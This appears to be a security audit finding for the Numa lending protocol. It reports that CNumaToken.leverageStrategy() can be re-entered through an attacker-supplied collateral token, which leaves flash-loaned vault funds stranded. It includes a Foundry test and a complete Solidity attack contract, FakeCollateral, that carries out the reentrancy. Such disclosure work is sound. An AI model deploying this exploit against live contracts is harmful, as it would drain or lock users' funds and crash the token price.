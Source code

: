 Small Shamrock Rook

High

# CNumaToken.leverageStrategy() can be re-entered, causing all the vault funds to be moved to a cToken, crashing NUMA price.

### Summary

[`CNumaToken.leverageStrategy()`](https://github.com/sherlock-audit/2024-12-numa-audit/blob/ae1d7781efb4cb2c3a40c642887ddadeecabb97d/Numa/contracts/lending/CNumaToken.sol#L141) has a `_collateral` token parameter which allows an attacker to pass in a custom `_collateral` token, which acts as a wrapper around the actual collateral token, while also receiving callbacks to enable reentrancy. 

This allows the flash loan repayment to be avoided, causing a large chunk of the vault's fund to be stuck in the cNuma contract, severely dumping the NUMA price.

### Root Cause

Allowing the user to pass in the `_collateral` token enables reentrancy, allowing them to call `leverageStrategy()` again. Then when `repayLeverage()` is called in the reentrant call, the `leverageDebt` in the vault is set to `0`, even though the first call still has not repaid it's leverageDebt.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

This exact attack is shown in the PoC. It involves a specially crafted `FakeCollateral` contract which is a wrapper around the underlying collateral, which ensures that the attack does not revert.

1. Attacker calls `cNuma.leverageStrategy()`, with `_collateral=FakeCollateral`, and a large `_borrowAmount`
2. The FakeCollateral contract re-enters the `cNuma` contract, calling `leverageStrategy()` again, with a small `_borrowAmount`
3. The reentrant call to `leverageStrategy()` finishes by calling `vault.repayLeverage()` which sets `leverageDebt` to `0`.
4. Since `leverageDebt` is equal to `0`, when it comes time for the initial `leverageStrategy()'s borrow to be repaid, none will be repaid. This causes the entire borrowed funds to be stuck in cNuma.

### Impact

Large amounts of LST can be pulled from the vault into the `CNuma` contract. This dumps the NUMA price since it depends on the ETH balance of the vault. These LSTs will be permanently lost and stuck.

### PoC

The PoC demonstrates moving 10% of the vault's funds into the cNuma contract where it can't be retrieved.

Add the foundry test to `Lending.t.sol`
```solidity
function test_reentrancy_leverageStrategy() public {
        vm.startPrank(userA);
        address[] memory t = new address[](2);
        t[0] = address(cReth);
        t[1] = address(cNuma);
        comptroller.enterMarkets(t);

        // mint cNuma so that we can borrow numa later
        uint depositAmount = 9e24;
        numa.approve(address(cNuma), depositAmount);
        cNuma.mint(depositAmount);

        // To be used as collateral to borrow NUMA
        deal(address(rEth), userA, 1e24 + providedAmount);
        rEth.approve(address(cReth), 1e24);
        cReth.mint(1e24);

        uint256 vaultRethBefore = rEth.balanceOf(address(cNuma.vault()));
        uint reth_in_cNuma = rEth.balanceOf(address(cNuma));

        rEth.approve(address(cNuma), providedAmount);

        // Setting up fake collateral token (which interacts with rETH)
        FakeCollateral fake_cReth = new FakeCollateral(address(cReth), address(rEth), userA, comptroller);

        // Sending it a tiny amount of cReth, so it can re-enter cNuma.leverageStrategy()
        cReth.transfer(address(fake_cReth), 5e10 / 2);

        // call strategy
        uint256 borrowAmount = 1e24;

        uint strategyindex = 0;
        cNuma.leverageStrategy(
            providedAmount,
            borrowAmount,
            CNumaToken(address(fake_cReth)),
            strategyindex
        );

        // check balances
        // cnuma position
        uint256 vaultRethAfter = rEth.balanceOf(address(cNuma.vault()));
        uint reth_in_cNuma_After = rEth.balanceOf(address(cNuma));
        
        // Shows that the rETH balance of the cNuma token contract has gone up by `borrowAmount` (since flash loan was not repaid)
        console.log("cNUMA rETH balance: %e->%e (stuck funds)", reth_in_cNuma, reth_in_cNuma_After);
        assertEq(reth_in_cNuma_After - reth_in_cNuma, borrowAmount);
    }
```

Also add the following attack contract to a new file `FakeCollateral.sol` in the same directory as `Lending.t.sol`
<details><summary>Attack contract</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "forge-std/console.sol";
import "@openzeppelin/contracts_5.0.2/token/ERC20/ERC20.sol";

import {IUniswapV3Pool} from "@uniswap/v3-core/contracts/interfaces/IUniswapV3Pool.sol";
import "@uniswap/v3-core/contracts/libraries/FullMath.sol";

import "@uniswap/v3-core/contracts/libraries/FixedPoint96.sol";
import "./uniV3Interfaces/ISwapRouter.sol";

import {NumaComptroller} from "../lending/NumaComptroller.sol";

import {NumaLeverageLPSwap} from "../Test/mocks/NumaLeverageLPSwap.sol";

import "../lending/ExponentialNoError.sol";
import "../lending/INumaLeverageStrategy.sol";
import "../lending/CToken.sol";
import "../lending/CNumaToken.sol";

import {Setup} from "./utils/SetupDeployNuma_Arbitrum.sol";

import {console} from "forge-std/console.sol";
contract FakeCollateral {

    CNumaToken actualCollateral;
    ERC20 actualUnderlying;
    address public user;

    bool entered = false;
    NumaComptroller comptroller;
    constructor(address _actualCollateral, address _underlying, address _user, NumaComptroller _comptroller) {
        actualCollateral = CNumaToken(_actualCollateral);
        actualUnderlying = ERC20(actualCollateral.underlying());
        user = _user;
        comptroller = _comptroller;

        address[] memory t = new address[](1);
        t[0] = address(actualCollateral);
        comptroller.enterMarkets(t);
    }

    function underlying() external view returns(address) {
        return address(actualUnderlying);
    }

    function accrueInterest() public returns (uint) {
        return 0;
    }
    
    function mint(uint256 amt) external returns (uint) {
        actualUnderlying.transferFrom(msg.sender, address(this), amt);
        actualUnderlying.approve(address(actualCollateral), amt);

        uint256 balanceBefore = actualCollateral.balanceOf(address(this));
        actualCollateral.mint(amt);
        uint256 balanceAfter = actualCollateral.balanceOf(address(this));

        if (balanceAfter - balanceBefore > 0) {
             // transfer most of it to the user
             console.log("transferring %e cTokens to user", balanceAfter - balanceBefore - 1 wei);
            actualCollateral.transfer(user, balanceAfter - balanceBefore - 1 wei);
        }
       
        // transfer 1 wei to msg.sender to prevent revert
        actualCollateral.transfer(msg.sender, 1 wei);

    }

    function transfer(address to, uint amt) external returns(bool truth){
        // re-enter for another leverage play

        if (!entered) {
            entered = true;

            CNumaToken(msg.sender).leverageStrategy(0, 1e15, CNumaToken(address(this)), 0);
            return true;
        }
        return true;
    }

    function balanceOf(address addy) public view returns(uint) {
        return actualCollateral.balanceOf(addy);
    }
    

}
```

### Mitigation

_No response_
